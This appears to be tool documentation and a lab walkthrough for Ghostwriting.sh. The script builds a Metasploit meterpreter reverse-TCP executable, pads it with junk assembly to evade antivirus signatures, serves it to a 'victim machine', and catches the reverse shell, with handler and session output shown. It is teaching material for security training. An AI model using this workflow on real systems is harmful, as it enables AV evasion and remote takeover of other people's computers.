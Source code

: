 
Ghostwriting.sh
===============

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location, 
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_Ghost.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&canary=">
 <p>Your browser does not support html5 video.</p>
</video>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a 
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can 
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.png)

Here is the moment of truth, depending on your AV this specific file may or may not be detected 
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's 
real-time protection.  This script is a demonstration tool more than anything.  It can however be 
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and 
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33
    
        meterpreter \>

There you go, happy pwning!



